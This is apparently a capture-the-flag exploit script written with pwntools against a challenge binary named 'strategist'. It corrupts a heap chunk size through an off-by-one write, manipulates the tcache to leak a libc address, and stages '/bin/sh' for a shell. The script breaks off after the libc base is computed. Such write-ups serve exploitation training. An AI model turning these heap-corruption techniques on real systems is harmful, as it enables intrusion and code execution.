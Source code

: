 def create(r,size,data):
    global idx
    r.recvuntil(b'> ')
    r.sendline(b'1')
    r.recvuntil(b'> ')
    r.sendline(str(size).encode())
    r.recvuntil(b'> ')
    r.sendline(data)
    idx = idx+1
    return idx-1
def show(r,idx):
    r.recvuntil(b'> ')
    r.sendline(b'2')
    r.recvuntil(b'> ')
    r.sendline(str(idx).encode())
    r.recvuntil(b'Plan [')
    leaks = r.recvline().strip()
    idx = int(leaks.split(b']')[0])
    print(idx)
    return idx
def edit(r,idx,data):
    r.recvuntil(b'> ')
    r.sendline(b'3')
    r.recvuntil(b'> ')
    r.sendline(str(idx).encode())
    r.recvuntil(b'> ')
    r.send(data)
def delete(r,idx):
    r.recvuntil(b'> ')
    r.sendline(b'4')
    r.recvuntil(b'> ')
    r.sendline(str(idx).encode())

def main():
    r = process("./strategist")
    sleep(1)
    ChunkA = create(r,24,b'A'*23)
    ChunkB = create(r,24,b'B'*23)
    ChunkC = create(r,0x50,b'C'*24)
    ChunkD = create(r,0x50,b'/bin/sh\x00')
    chunkE = create(r,24,b'E'*23)
    
    edit(r,1,b'B'*24+p8(0xc1))

    for i in range(7):
        create(r,0xb0,b'tcache')
    
    for i in range(11,4,-1):
         delete(r,i)
   
    delete(r,2)
    leaked = create(r,80,b'') #2
    leaked = show(r,2)
    leak_libc = u64(r.recvline().strip().ljust(8,b'\0')) << 8
    print(hex(leak_libc))
    libc.address = leak_libc - 0x3ebd00
    print(hex(libc.address))
